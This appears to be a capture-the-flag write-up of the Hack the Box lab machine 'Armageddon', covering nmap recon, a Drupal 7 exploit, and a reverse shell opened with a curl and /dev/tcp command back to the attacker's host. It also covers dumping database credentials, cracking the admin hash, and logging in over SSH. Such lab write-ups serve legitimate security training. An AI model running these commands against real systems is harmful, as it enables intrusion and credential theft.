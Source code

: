 # Hack the Box - Armageddon

# NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.233 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/15%OT=22%CT=1%CU=37173%PV=Y%DS=2%DC=I%G=Y%TM=6461351
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%II=I%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=I%
OS:TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW
OS:7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%
OS:W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CN
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.58 seconds
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.233 -oN services.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82c6bbc7026a93bb7ccbdd9c30937934 (RSA)
|   256 3aca9530f312d7ca4505bcc7f116bbfc (ECDSA)
|_  256 7ad4b36879cf628a7d5a61e7060f5f33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

---

## HTTP
  - Homepage
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cb5ace1e-fa12-4cc5-b837-4107afa14893)

  - Registering as a new user failed as e-mail authentication is broken broken.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4abc8d0c-1e80-479a-b0ca-3d6eaa55f28c)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56f3bf84-4cfa-42ea-b0de-db89db01746d)

---

## HTTP Response Header
```http
HTTP/1.1 200 OK
Date: Sat, 30 Sep 2023 11:35:57 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
Content-Language: en
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
Content-Length: 7440
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
```

---

## Drupal Version
- `changelog.txt`.
```shell
curl -s 10.10.10.233/CHANGELOG.txt | head
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9e732973-d6d1-4287-acdd-47f785645a1f)

---

## Search for Exploit
```shell
root@kali# searchsploit drupal 7.56
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e8217b76-c132-4084-8b46-a44a1c78af1a)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0592413d-3aca-457e-bab1-9404dc5c36e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf373420-7ea7-4e73-b86c-8bd1884c4b06)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```

## Initial Foothold
```shell
root@kali# ruby 44449.rb http://10.10.10.233
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a3f60b5-c3ef-4d41-a291-f752776f758b)

Bash Shell
```shell
root@kali# rlwrap nc -nlvvp 443
```
```shell
root@kali# curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.10/443 0>&1" 'http://10.10.10.233/shell.php'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/868623ca-76ba-4fd4-bde1-6863c301137f)

`/var/www/html/sites/default/settings.php`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b877cd91-e6e5-4406-8100-828b1a80722f)

```shell
Creds: drupaluser:CQHEy@9M*m23gBVj
```

## MySQL
```shell
bash-4.2$ mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```

```shell
mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5bb2555b-8c25-4a61-83b6-cf15216edb4f)

```shell
Creds: brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

## Crack Hash
```shell
root@kali# hashid '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt'
Analyzing '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt'

root@kali# echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > hash.txt
```

```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f117cef3-9ef1-4107-a71b-7d576b6ffe0c)

## Initial Foothold
```shell
ssh brucetherealadmin@10.10.10.233
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/895a58dc-0c2b-45f1-a0a9-a944be595775)
